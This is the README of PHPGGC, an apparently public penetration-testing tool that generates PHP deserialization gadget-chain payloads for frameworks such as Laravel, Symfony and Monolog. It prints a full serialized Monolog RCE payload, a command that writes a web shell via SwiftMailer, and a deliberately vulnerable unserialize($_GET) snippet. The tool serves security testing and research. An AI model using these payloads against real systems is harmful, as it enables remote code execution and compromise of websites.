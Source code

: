 # PHPGGC: PHP Generic Gadget Chains

*PHPGGC is a library of unserialize() payloads along with a tool to generate them, from command line or programmatically*.
When encountering an unserialize on a website you don't have the code of, or simply when trying to build an exploit, this tool allows you to generate the payload without having to go through the tedious steps of finding gadgets and combining them. It can be seen as the equivalent of [frohoff's ysoserial](https://github.com/frohoff/ysoserial), but for PHP.
Currently, the tool supports: Doctrine, Guzzle, Laravel, Magento, Monolog, Phalcon, Slim, SwiftMailer, Symfony, Yii and ZendFramework.

## Requirements

PHP >= 5.6 is required to run PHPGGC.

## Usage

Run `./phpggc -l` to obtain a list of gadget chains:

```
$ ./phpggc -l

Gadget Chains
-------------

NAME                  VERSION           TYPE             VECTOR         I    
Doctrine/FW1          ?                 file_write       __toString     *    
Guzzle/FW1            6.0.0 <= 6.3.2    file_write       __destruct          
Guzzle/RCE1           6.0.0 <= 6.3.2    rce              __destruct          
Laravel/RCE1          5.4.27            rce              __destruct          
Laravel/RCE2          5.5.39            rce              __destruct          
Laravel/RCE3          5.5.39            rce              __destruct     *    
Laravel/RCE4          5.5.39            rce              __destruct          
Magento/SQLI1         ? <= 1.9.3.4      sql_injection    __destruct          
Monolog/RCE1          1.18 <= 1.23      rce              __destruct          
Monolog/RCE2          1.5 <= 1.17       rce              __destruct          
Phalcon/RCE1          <= 1.2.2          rce              __wakeup       *    
Slim/RCE1             3.8.1             rce              __toString          
SwiftMailer/FW1       5.1.0 <= 5.4.8    file_write       __toString          
SwiftMailer/FW2       6.0.0 <= 6.0.1    file_write       __toString          
SwiftMailer/FW3       5.0.1             file_write       __toString          
Symfony/FW1           2.5.2             file_write       DebugImport    *    
Symfony/FW2           3.4               file_write       __destruct          
Symfony/RCE1          3.3               rce              __destruct     *    
Symfony/RCE2          2.3.42 < 2.6      rce              __destruct     *    
Symfony/RCE3          2.6 <= 2.8.32     rce              __destruct     *    
Yii/RCE1              1.1.19            rce              __wakeup       *    
ZendFramework/RCE1    ? <= 1.12.20      rce              __destruct     *  

```

Every gadget chain has:

- Name: Name of the framework/library
- Version: Version of the framework/library for which gadgets are for
- Type: Type of exploitation: RCE, File Write, File Read, Include...
- Vector: the vector to trigger the chain after the unserialize (`__destruct()`, `__toString()`, `offsetGet()`, ...)
- Informations: Other informations about the chain

Use `-i` to get detailed information about a chain:

```
$ ./phpggc -i symfony/rce1
Name           : Symfony/RCE1
Version        : 3.3
Type           : rce
Vector         : __destruct
Informations   : 
Exec through proc_open()

./phpggc Symfony/RCE1 <command>
```

Once you have selected a chain, run `./phpggc <gadget-chain> [parameters]` to obtain the payload.
For instance, to obtain a payload for Monolog, you'd do:

```
$ ./phpggc monolog/rce1 assert 'phpinfo()'
O:32:"Monolog\Handler\SyslogUdpHandler":1:{s:9:"*socket";O:29:"Monolog\Handler\BufferHandler":7:{s:10:"*handler";r:2;s:13:"*bufferSize";i:-1;s:9:"*buffer";a:1:{i:0;a:2:{i:0;s:10:"phpinfo();";s:5:"level";N;}}s:8:"*level";N;s:14:"*initialized";b:1;s:14:"*bufferLimit";i:-1;s:13:"*processors";a:2:{i:0;s:7:"current";i:1;s:6:"assert";}}}
```

For a file write using SwiftMailer, you'd do:

```
$ echo 'It works !' > /tmp/data
$ ./phpggc swiftmailer/fw1 /var/www/html/shell.php /tmp/data
O:13:"Swift_Message":8:{...}
```

## Wrapper

The `-w` option allows you to define a PHP file containing a `wrapper($chain)` function.
This will be called after the chain is built, but before the `serialize()`, in order to adjust the payload's shape.
For instance, if the vulnerable code looks like this:

```php
<?php
$data = unserialize($_GET['data']);
print $data['message'];
```

You could use a __toString() chain, wrapping it like so:

```php
<?php
# /tmp/my_wrapper.php
function wrapper($chain)
{
    return array(
        'message' => $chain
    );
}
```

And you'd call phpggc like so:

```
$ ./phpggc -w /tmp/my_wrapper.php slim/rce1 system id
a:1:{s:7:"message";O:18:"Slim\Http\Response":2:{...}}
```

## Encoders

Arguments allow to modify the way the payload is output. For instance, `-u` will URL encode it, and `-b` will convert it to base64.
**Payloads often contain NULL bytes and cannot be copy/pasted as-is**. Use `-s` for a soft URL encode, which keeps the payload readable.

The encoders can be chained, and as such **the order is important**. For instance, `./phpggc -b -u -u slim/rce1 system id` will base64 the payload, then URLencode it twice.

## Advanced: Fast destruct

PHPGGC implements a `--fast-destruct` (`-f`) flag, that will make sure your serialized object will be destroyed right after the `unserialize()` call, and not at the end of the script. **I'd recommend using it for every `__destruct` vector**, as it improves reliability. For instance, if PHP script raises an exception after the call, the `__destruct` method of your object might not be called. As it is processed at the same time as encoders, it needs to be set first.

```
$ ./phpggc -f -s slim/rce1 system id
a:2:{i:7;O:18:"Slim\Http\Response":2:{s:10:"...
```

# Contributing

Pull requests are more than welcome. Please follow these simple guidelines:

- `__destruct()` is always the best vector
- Specify at least the version of the library you've built the payload on
- Refrain from using references unless it is necessary or drastically reduces the size of the payload. If the payload is modified by hand afterwards, this might cause problems.
- Do not include unused parameters in the gadget definition if they keep their default values. It just makes the payload bigger.

Codewise, the directory structure is fairly straightforward: gadgets in _gadgets.php_, description + logic in _chain.php_.
You can define pre- and post- processing methods, if parameters need to be modified.
Hopefully, the already implemented gadgets should be enough for you to build yours.
Otherwise, I'd be glad to answer your questions.
